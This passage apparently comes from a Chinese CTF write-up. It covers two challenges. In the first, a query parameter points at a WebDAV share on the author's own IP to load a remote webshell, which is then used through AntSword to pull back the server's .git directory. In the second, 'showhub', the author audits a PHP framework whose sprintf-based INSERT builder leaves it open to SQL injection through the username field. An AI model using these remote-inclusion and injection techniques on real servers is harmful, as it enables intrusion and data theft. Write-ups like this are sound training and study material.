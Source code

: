 ```text

```

然后重启apache `service apache2 restart` ，访问`?orange=\\你的ip\WEBDAV\qaq.txt`

![2](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/cfb8844c712fd2e095319a20442b56ad.JPG)

然后可以远程加载shell，用蚁剑连。在服务器上把.git目录打包弄回来，恢复版本可以得到hint和一个字典，说是要爆破内网一台机器，flag在那个服务器的Administrator的桌面上，于是我就不会了，来不及学。

## showhub

题目意思是这是用一个自己写的框架开发的web应用，给了这个框架的代码让我们审计。

文件不多，主要看`\Models\User.php`和`\Models\Model.php`。

在User.php中可以知道密码都是sha256加密的，而且题目后来给了提示没有弱密码，让我们“更新”admin的密码来登录。所以主要看和数据库交互的地方，而且题目上的web应用只有一个我们可以控制的输入点，那就是注册的时候发送用户名和密码。密码会被加密，所以只能在username这里想办法注入。

首先在注册的时候调用了Model.php的save()函数，`$user = (new User(null, $username, $password))->save();`

```php
//无关已略过
<?php
class Model
{
    private $db = null; //mysqli
    private $tbname = null;
    public function __construct() {
    }
    static private function prepareWhere($args) {
    }
    static private function prepareInsert($baseSql, $args) {
        $i = 0;
        if (!empty($args)) {
            foreach ($args as $column => $value) {
                $value = addslashes($value); //转义了
                if ($value !== null) {
                    if ($i !== count($args) - 1) {
                        //循环格式化生成sql语句
                        $baseSql = sprintf($baseSql, "`$column`,%s", "'$value',%s");
                    } else {
                        $baseSql = sprintf($baseSql, "`$column`", "'$value'");
                    }
                }
                $i++;
            }
        }
        return $baseSql;
    }
    static private function prepareUpdate($baseSql, $args) {
    }
    public static function findOne(array $args = array()) {
    }
    public function save() {
        $args = get_object_vars($this);
        $args = array_slice($args, 0, -2);
        if ($args['id'] !== null) {
            //......
        } else {
            $baseSql = "INSERT INTO `$this->tbname`(%s) VALUE(%s)";
            $sql = self::prepareInsert($baseSql, $args);
            $this->db->query($sql);
            //......
        }
```